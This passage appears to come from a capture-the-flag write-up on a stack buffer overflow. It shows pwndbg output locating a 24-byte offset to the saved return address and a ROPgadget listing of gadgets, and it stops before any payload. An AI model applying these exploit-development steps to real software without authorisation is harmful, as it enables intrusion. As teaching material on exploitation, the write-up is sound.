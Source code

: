 ```
   3      0xa6161616b None
   4              0x1 None
   5   0x7ffff7db4d90 __libc_start_call_main+128
   6   0x7ffff7db4e40 __libc_start_main+128
   7         0x4010de None
────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> i f
Stack level 0, frame at 0x7fffffffdfd8:
 rip = 0x401396; saved rip = 0x6161616861616167
 called by frame at 0x7fffffffdfe8
 Arglist at 0x7fffffffdfd0, args:
 Locals at 0x7fffffffdfd0, Previous frame's sp is 0x7fffffffdfe0
 Saved registers:
  rip at 0x7fffffffdfd8
pwndbg> x/s 0x7fffffffdfd8
0x7fffffffdfd8: "gaaahaaaiaaajaaakaaa\n"
```
Its clear that the buffer was 24 bytes long before we reached the return address. Now, we have to figure out the address of the
gadget. Luckily, we can use the ROPgadget tool to help us!
```
Gadgets information
============================================================
0x00000000004010dd : add ah, dh ; nop ; endbr64 ; ret
0x0000000000401077 : add al, 0 ; add byte ptr [rax], al ; jmp 0x401020
0x0000000000401057 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x000000000040127f : add al, ch ; retf
0x000000000040114f : add bh, bh ; loopne 0x4011b9 ; nop dword ptr [rax + rax] ; ret
0x00000000004012e8 : add byte ptr [rax - 0x77], cl ; ret 0xabe
0x000000000040127d : add byte ptr [rax], al ; add al, ch ; retf
0x000000000040147c : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x0000000000401037 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x401020
0x000000000040117a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040147e : add byte ptr [rax], al ; endbr64 ; ret
0x00000000004010dc : add byte ptr [rax], al ; hlt ; nop ; endbr64 ; ret
0x0000000000401039 : add byte ptr [rax], al ; jmp 0x401020
0x0000000000401034 : add byte ptr [rax], al ; push 0 ; jmp 0x401020
0x0000000000401044 : add byte ptr [rax], al ; push 1 ; jmp 0x401020
0x0000000000401054 : add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x0000000000401064 : add byte ptr [rax], al ; push 3 ; jmp 0x401020
0x0000000000401074 : add byte ptr [rax], al ; push 4 ; jmp 0x401020
0x0000000000401084 : add byte ptr [rax], al ; push 5 ; jmp 0x401020
0x0000000000401094 : add byte ptr [rax], al ; push 6 ; jmp 0x401020
0x00000000004010a4 : add byte ptr [rax], al ; push 7 ; jmp 0x401020
0x0000000000401156 : add byte ptr [rax], al ; ret
0x000000000040100d : add byte ptr [rax], al ; test rax, rax ; je 0x401016 ; call rax
0x0000000000401155 : add byte ptr [rax], r8b ; ret
0x000000000040117b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401047 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x401020
0x000000000040117c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401177 : add eax, 0x2f2b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401067 : add eax, dword ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x00000000004011fd : call qword ptr [rax + 0x4855c35d]
0x0000000000401393 : call qword ptr [rax + 0x4855c3c9]
0x0000000000401014 : call rax
0x0000000000401193 : cli ; jmp 0x401120
0x00000000004010e3 : cli ; ret
0x000000000040148b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004012e5 : cmpsd dword ptr [rsi], dword ptr [rdi] ; sub eax, 0x89480000 ; ret 0xabe
0x0000000000401190 : endbr64 ; jmp 0x401120
```